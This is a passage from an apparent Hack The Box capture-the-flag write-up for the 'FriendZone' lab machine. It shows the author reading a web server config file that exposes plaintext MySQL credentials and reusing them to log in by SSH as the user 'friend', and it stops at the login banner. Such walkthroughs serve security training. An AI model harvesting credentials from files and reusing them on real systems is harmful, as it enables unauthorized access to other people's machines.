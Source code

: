 ![](/images/hackthebox/friendzone/15.png)
#### We owned user.
<br>
<hr>
### SSH as friend, Privilege Escalation
#### I looked into `/var/www` and found a file called `mysql_data.conf` which had some credentials :
```
$ ls -la
total 36
drwxr-xr-x  8 root root 4096 Oct  6  2018 .
drwxr-xr-x 12 root root 4096 Oct  6  2018 ..
drwxr-xr-x  3 root root 4096 Jan 16 22:13 admin
drwxr-xr-x  4 root root 4096 Oct  6  2018 friendzone
drwxr-xr-x  2 root root 4096 Oct  6  2018 friendzoneportal
drwxr-xr-x  2 root root 4096 Jan 15 21:08 friendzoneportaladmin
drwxr-xr-x  3 root root 4096 Oct  6  2018 html
-rw-r--r--  1 root root  116 Oct  6  2018 mysql_data.conf
drwxr-xr-x  3 root root 4096 Oct  6  2018 uploads
$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
$
```
#### I could get `ssh` access as friend with them :
```
root@kali:~/Desktop/HTB/boxes/friendzone# ssh friend@friendzone.htb
The authenticity of host 'friendzone.htb (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'friendzone.htb,10.10.10.123' (ECDSA) to the list of known hosts.
friend@friendzone.htb's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```
